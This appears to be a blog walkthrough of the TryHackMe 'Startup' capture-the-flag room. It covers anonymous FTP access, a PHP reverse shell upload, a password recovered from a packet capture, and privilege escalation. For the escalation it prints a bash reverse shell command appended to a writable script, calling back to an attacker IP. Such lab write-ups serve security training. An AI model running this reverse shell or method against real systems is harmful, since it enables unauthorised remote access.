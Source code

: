 <!-- wp:paragraph -->
<p>https://tryhackme.com/room/startup</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Run a nmap scan to find for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":990,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-57.png?w=562" alt="" class="wp-image-990"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Connect to the FTP server as anonymous.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":991,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-58.png?w=418" alt="" class="wp-image-991"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Retrieve the files to find for clues.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":993,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-59.png?w=598" alt="" class="wp-image-993"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":994,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-60.png?w=837" alt="" class="wp-image-994"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":996,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-61.png?w=870" alt="" class="wp-image-996"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Put a php reverse shell script in the FTP folder.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":998,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-62.png?w=780" alt="" class="wp-image-998"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":1007,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-67.png?w=596" alt="" class="wp-image-1007"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Start a listener.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1000,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-63.png?w=876" alt="" class="wp-image-1000"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>cat recipe.txt to find the first answer.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1001,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-64.png?w=1024" alt="" class="wp-image-1001"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Start a python simple server and upload linpeas to the victim box.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1003,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-65.png?w=663" alt="" class="wp-image-1003"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found a interesting file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1005,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-66.png?w=866" alt="" class="wp-image-1005"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Copy the file to the ftp server.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1008,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-68.png?w=753" alt="" class="wp-image-1008"/><figcaption>cp /incidents/suspicious.pcapng /var/www/html/files/ftp/</figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":1010,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-69.png?w=637" alt="" class="wp-image-1010"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Its a wireshark file, follow the tcp stream to find the password for lennie.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1011,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-70.png?w=460" alt="" class="wp-image-1011"/><figcaption>c4ntg3t3n0ughsp1c3</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Change user to lennie.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1013,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-71.png?w=341" alt="" class="wp-image-1013"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>First flag is found. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1015,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-72.png?w=323" alt="" class="wp-image-1015"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Head to the scripts folder and examine the files. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1017,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-73.png?w=426" alt="" class="wp-image-1017"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We can edit the /etc/print.sh file , edit the file with bash reverse shell script.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1021,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-75.png?w=385" alt="" class="wp-image-1021"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":1026,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-77.png?w=897" alt="" class="wp-image-1026"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>echo 'bash -i >&amp; /dev/tcp/10.4.55.237/1337 0>&amp;1' >> /etc/print.sh</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1019,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-74.png?w=763" alt="" class="wp-image-1019"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Start a netcat listener and the final flag is found.  </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1022,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-76.png?w=669" alt="" class="wp-image-1022"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->
